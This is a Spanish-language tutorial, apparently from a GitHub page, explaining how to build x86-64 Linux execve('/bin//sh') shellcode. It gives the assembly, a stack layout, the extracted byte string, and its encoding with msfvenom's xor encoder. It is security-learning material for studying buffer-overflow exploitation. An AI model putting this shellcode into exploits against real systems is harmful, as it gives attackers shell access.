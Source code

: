 ## Bin/bash shellcode

El shellcode es una cadena de bytes en código máquina directamente ejecutado en la CPU.
Se suele introducir en el stack (parte de la memoria de un programa) mediante alguna falla de buffer overflow.

Para el shellcode, entramos en lo que se llama "Modo kernel" gracias a un tipo de funciones llamado "syscalls" que le dan el control 
del sistema al kernel durante la ejecución para hacer operaciónes mas privilegiadas. Estas funciones syscall como write() son en las que se 
basan las funciones de c como printf() al compilarse.

Hay un archivo en Linux bajo la ruta `/usr/include/x86_64-linux-gnu/asm/unistd_64.h` (en este caso 64 bits) donde están los indices de las funciones.
En este caso usaremos el 59 que es sys_execv. (Ej el 1 es write y el 60 es exit)

-----------------------

La programación en código máquina se basa en pasarle al registro rax el índice de la funcion syscall que queremos (en nuestro caso 59 para execv)
y en los registros rdi, rsi y rdx (por orden), los argumentos de esta función.

Si miramos el [manual de Linux](https://man7.org/linux/man-pages/man2/execve.2.html) vemos que execve nos pide tres argumentos:
`int execve(const char *pathname, char *const argv[], char *const envp[]);`
- **Path del binario a ejecutar** en este caso /bin/sh, que redondearemos a 8 bytes quedando /bin//sh (igualmente funcional), esto ira a RDI.
- **Argumentos**, en este caso no tenemos, sino que hay que poner la direccion del binario. A RSI
- **Variables de entorno**: no tenemos asi que sera "0". A RDX

Tanto lo que va en rdi como en rsi, como son cadenas de texto, hay que acabarlas en nulls (Ceros basicamente)
Es decir `execve(/bin/sh0x0, &/bin/sh, 0x000000000000000}`
Lo que haremos es meter esos argumentos en la memoria (rsp) y luego pasarlo de ahi a los registros.

-------------------------

Para pasar el "/bin//bash", hay que pasarlo a hexadecimal. Eso se puede hacer facilmente con Python:
`"0x" + "/bin//sh"[::-1].encode("utf-8").hex() -> 0x68732f2f6e69622f `

Codigo en assembly:
```asm
global _start 
section .text
_start:
    xor rax, rax ; primer null , rax=0 ; de RAX sacamos los Ceros
    push rax ; rsp = 0x000000000000000. 

    mov rbx, 0x68732f2f6e69622f ; /bin//sh (8 bytes, o sea, alineado)
    push rbx ; rsp:  0x68732f2f6e69622f    0x000000000000000. -> Ahora la pila tiene el primer argumento (/bin//sh, 0x0)
    mov rdi, rsp ; rdi 0x68732f2f6e69622f /bin//sh -> Esto de la pila lo metemos en rdi como primer argumento

    push rax ;           otro null; rsp  0x000000000000000  0x68732f2f6e69622f   0x000000000000000
    mov rdx, rsp ;       rdx = 0x000000000000000 (Tercer argumento)

    push rdi ;          dirección de /bin/sh en la pila ->  rsp 0x00007fffffffdeb0  0x000000000000000 0x68732f2f6e69622f  0x000000000000000
    mov rsi, rsp          ; rsi -> 0x7fffffffdea0  (0x68732f2f6e69622f en el stack)

    add rax, 59 ;       Llamamos a execve
    syscall  ; lo ejecutamos
```
Para que entendamos como está puesto todo:  
- La pila  
```
| rsp   |    0x7fffffffdea0  | 0x7fffffffdea8     | 0x7fffffffdeb0               |    0x7fffffffdeb8 |
| ---   | ------------------ | ------------------ | ---------------------------- | ----------------- |
| valor | 0x00007fffffffdeb0 |  0x000000000000000 | 0x68732f2f6e69622f (/bin//sh)| 0x000000000000000 | 
```
- Los registros:
```
  ; $rdi   : 0x007fffffffdeb0  →  "/bin//sh",0x0
  ; $rsi   : 0x007fffffffdea0  →  0x007fffffffdeb0  →  "/bin//sh"
  ; $rdx   : 0x007fffffffdea8  →  0x0000000000000000
```

------------------

Compilamos esto a un objeto y lo pasamos a una cadena de bytes.
```bash
└─$ nasm -f elf64 execv.asm -o execv.o
└─$ ld execv.o -o execv
└─$ ./execv
$ whoami
cucuxii
```

```bash
└─$ for i in $(objdump -d execv.o -M intel | grep "^ " | cut -f2); do echo -n "\\\x$i"; done                  
\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
└─$ echo -ne "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" | msfvenom -f elf -e x64/xor -a x64 --platform linux > demo
└─$ ./demo
$ whoami
cucuxii
```


